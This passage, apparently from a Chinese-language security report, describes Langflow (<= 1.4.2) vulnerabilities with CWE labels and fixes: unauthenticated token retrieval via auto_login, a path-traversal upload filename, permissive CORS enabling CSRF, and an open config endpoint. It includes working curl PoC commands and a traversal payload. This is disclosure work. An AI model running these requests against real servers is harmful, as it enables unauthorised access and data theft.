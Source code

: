         ACCESS_TOKEN=$(curl -s -X GET "http://<langflow_host>:7860/api/v1/login/auto_login" | jq -r .access_token)
        echo "Got access token: $ACCESS_TOKEN"
        ```
    3.  **步骤2: 上传恶意构造文件名的文件 (使用获取的令牌)**
        创建一个文件 `poc_flow.json` (内容为有效的最小化流程JSON，例如 `{"data": {}}` )。
        ```bash
        # AUTH_TOKEN is $ACCESS_TOKEN from step 1
        curl -X POST "http://<langflow_host>:7860/api/v1/flows/upload/" \
        -H "Authorization: Bearer $ACCESS_TOKEN" \
        -F "file=@poc_flow.json;filename=../../../../../../../../tmp/pwned_by_unauth_upload.txt"
        ```
    4.  **预期结果:**
        *   文件 `pwned_by_unauth_upload.txt` 被创建在服务器的 `/tmp/` 目录下。
*   **建议修复:**
    *   主要：修复 `AUTO_LOGIN` 漏洞 (见 CVE-1)。
    *   次要：对 `file.filename` 进行严格清理和验证 (如 `os.path.basename` 并移除 `../` 等)。

### 4. CVE-Style: 不安全的CORS配置导致特权用户CSRF和信息泄露 (Langflow <= 1.4.2)

*   **漏洞类型 (CWE):** CWE-346 (Origin Validation Error), CWE-942 (Permissive Cross-domain Policy with Credentials), CWE-352 (CSRF)
*   **受影响组件:** `langflow.main.CORSMiddleware` 配置。
*   **漏洞摘要:** Langflow 在其 `CORSMiddleware` 中默认配置 `allow_origins=["*"]` 同时 `allow_credentials=true`。结合默认启用的 `AUTO_LOGIN` 功能（该功能能使任何访问者自动成为超级用户），此CORS配置使得恶意网站能够代表此自动登录的超级用户向Langflow API发送凭据化请求，并读取API响应。
*   **攻击向量/利用条件:** 远程攻击者诱导一个（可能不知情的）Langflow用户（此用户访问Langflow时会通过`auto_login`自动成为超级用户）访问一个特制的恶意网页。
*   **技术影响:** 允许攻击者对（自动成为）超级用户的会话执行CSRF攻击，进行任意操作（如执行RCE、删除数据等），并能读取这些操作的响应，窃取所有数据。
*   **PoC描述:** 与先前报告中的CORS PoC类似，但现在的前提是受害者浏览器会自动通过 `/api/v1/login/auto_login` 获取超级用户凭证。恶意网页的 `fetch` 请求将携带这些超级用户凭证。
*   **建议修复:** 严格限制 `CORS_ORIGINS` 为前端应用的实际来源。绝不在 `allow_credentials=true` 时使用 `["*"]`。

### 5. CVE-Style: 未经认证的配置信息泄露 (Langflow <= 1.4.2)

*   **漏洞类型 (CWE):** CWE-200 (Exposure of Sensitive Information to an Unauthorized Actor)
*   **受影响组件:** `GET /api/v1/config` 端点。
*   **漏洞摘要:** Langflow 的 `/api/v1/config` 端点无需认证即可访问。该端点返回包含多种配置设置的JSON响应，其中可能包括敏感信息，如 `database_url`（可能泄露数据库类型、主机、甚至凭据）、文件系统路径和其他内部服务URL。
*   **攻击向量/利用条件:** 远程、未经认证的攻击者向 `/api/v1/config` 发送GET请求。
*   **技术影响:** 泄露的配置信息可被攻击者用于了解系统架构、发现潜在弱点（如暴露的数据库）、或直接获取敏感连接字符串，从而辅助或直接导致进一步的系统入侵。
*   **PoC描述:**
    1.  **前提:** Langflow 服务运行。
    2.  **复现步骤:**
        ```bash
        curl -X GET "http://<langflow_host>:7860/api/v1/config"
        ```
    3.  **预期结果:**
        *   API响应一个JSON体，包含各项配置，例如:
            ```json
            {
              "feature_flags": { ... },
              "dev": false,
              "database_url": "postgresql://user:pass@host:port/db", // Potentially sensitive
              "components_path": ["/app/langflow/components"],
              // ... other settings
            }
            ```
*   **建议修复:**
    *   对此端点 `/api/v1/config` 实施认证，至少要求管理员权限。
    *   审查从 `Settings.model_dump()` 返回的字段，确保不必要的敏感信息（特别是 `database_url` 中的凭据部分）被排除或脱敏。

---